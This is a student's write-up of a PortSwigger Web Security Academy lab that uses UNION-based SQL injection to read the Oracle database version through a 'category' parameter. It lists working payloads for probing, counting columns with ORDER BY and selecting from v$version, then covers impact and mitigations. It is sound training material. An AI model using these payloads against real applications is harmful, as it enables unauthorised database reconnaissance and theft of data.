






# Lab 03 - SQL Injection Attack, Querying the Database Type and Version on Oracle

## Lab Information

| Field | Details |
|-------|---------|
| Platform | PortSwigger Web Security Academy |
| Category | SQL Injection |
| Lab Name | SQL Injection Attack, Querying the Database Type and Version on Oracle |
| Difficulty | Practitioner |
| Testing Method | Manual Testing |
| Status | ✅ Solved |

---

# Objective

Exploit a SQL Injection vulnerability in the `category` parameter to retrieve the **Oracle database version** using a **UNION-based SQL Injection** attack.

---

# Testing Summary

| Item | Value |
|------|-------|
| Vulnerable Parameter | `category` |
| Injection Type | UNION-Based SQL Injection |
| Database | Oracle |
| Payload Used | `' UNION SELECT NULL,banner FROM v$version--` |
| Result | Oracle Database Version Retrieved |
| Tool Used | Web Browser |

---

# Vulnerability Overview

The application filters products using the `category` parameter.

Example:

```http
/filter?category=Accessories
```

The value supplied by the user is inserted directly into an SQL query without proper validation.

This allows an attacker to inject additional SQL statements.

Unlike previous labs, this lab demonstrates how an attacker can retrieve information from the backend database using the `UNION SELECT` operator.

---

# Manual Testing

## Step 1 - Identify the Injection Point

Target URL:

```http
/filter?category=Accessories
```

The `category` parameter accepts user-controlled input and becomes the testing point.



---

## Step 2 - Check for SQL Injection

### Payload

```text
'
```

URL

```http
/filter?category=Accessories'
```

### Purpose

A single quote attempts to terminate the SQL string.

### Observation

The application returned an **Internal Server Error**.

This indicates that the application may be constructing SQL queries using unsanitized user input.

This is a strong indicator of a possible SQL Injection vulnerability.



---

## Step 3 - Determine the Number of Columns

Before using a UNION attack, determine how many columns are returned by the original query.

### Payload

```text
' ORDER BY 1--
```

Result:

✅ Page loaded successfully.

Next:

```text
' ORDER BY 2--
```

Result:

✅ Page loaded successfully.

Next:

```text
' ORDER BY 3--
```

Result:

❌ Error returned.

### Conclusion

The original query contains **2 columns**.



---

## Step 4 - Perform a UNION-Based SQL Injection

Since the query contains two columns, construct a UNION query with two values.

Oracle stores version information inside the **v$version** view.

### Payload

```sql
' UNION SELECT NULL,banner FROM v$version--
```

### Purpose

- `UNION SELECT` combines the attacker's query with the original query.
- `NULL` occupies the first column.
- `banner` retrieves version information.
- `v$version` is an Oracle system view containing database version details.
- `--` comments out the remainder of the original SQL query.



---

## Step 5 - Retrieve the Database Version

The application displayed multiple Oracle version strings.

Example output:

```text
Oracle Database 11g Express Edition Release 11.2.0.2.0
```

```text
CORE 11.2.0.2.0 Production
```

```text
PL/SQL Release 11.2.0.2.0
```

The lab objective was successfully completed.



---

## Step 6 - Lab Solved

After retrieving the database version, the application marked the lab as solved.


---

# Understanding the Attack

## Original Query

The application may execute a query similar to:

```sql
SELECT name, description
FROM products
WHERE category='Accessories';
```

---

## Injected Query

After injecting the payload:

```sql
' UNION SELECT NULL,banner FROM v$version--
```

The query becomes:

```sql
SELECT name, description
FROM products
WHERE category=''

UNION

SELECT NULL,banner
FROM v$version--';
```

The UNION operator combines the results of both queries, allowing the Oracle version information to be displayed within the application's response.

---

# Why Was NULL Used?

The original query returns **2 columns**.

The injected query must also return **2 columns**.

Since only one column (`banner`) is required, `NULL` is used as a placeholder for the remaining column.

---

# Impact

If this vulnerability exists in a production environment, an attacker could potentially:

- Identify the backend database.
- Determine the exact database version.
- Search for known vulnerabilities affecting that version.
- Retrieve sensitive database information.
- Escalate SQL Injection attacks.

---

# Mitigation

To prevent this vulnerability:

- Use Prepared Statements (Parameterized Queries).
- Validate and sanitize user input.
- Avoid constructing dynamic SQL queries.
- Hide detailed database error messages.
- Apply the Principle of Least Privilege to database accounts.

---

# Screenshots

## 1. Lab Overview



The PortSwigger lab description explaining the objective.

---

## 2. Home Page


The application before any testing.

---

## 3. SQL Injection Confirmation


Injecting a single quote caused an Internal Server Error, indicating a possible SQL Injection vulnerability.

---

## 4. Determining the Number of Columns


The `ORDER BY` technique was used to determine that the original query contains two columns.

---

## 5. UNION SELECT Payload


A UNION-based SQL Injection payload was used to retrieve Oracle database version information.

---

## 6. Oracle Database Version


The Oracle database version strings were successfully displayed.

---

## 7. Lab Solved


The lab was successfully completed after retrieving the Oracle version.

---

# Key Learnings

- Identified a SQL Injection vulnerability manually.
- Confirmed SQL Injection using application behaviour.
- Learned how to determine the number of columns using the `ORDER BY` technique.
- Understood the purpose of the `UNION SELECT` operator.
- Learned why `NULL` placeholders are required in UNION attacks.
- Retrieved Oracle database version information from the `v$version` system view.
- Understood the importance of identifying the backend DBMS before performing advanced SQL Injection attacks.

---

# Next Step

Continue with the next PortSwigger SQL Injection lab to learn how to retrieve **database contents**, including tables, columns, and sensitive data using UNION-based SQL Injection.
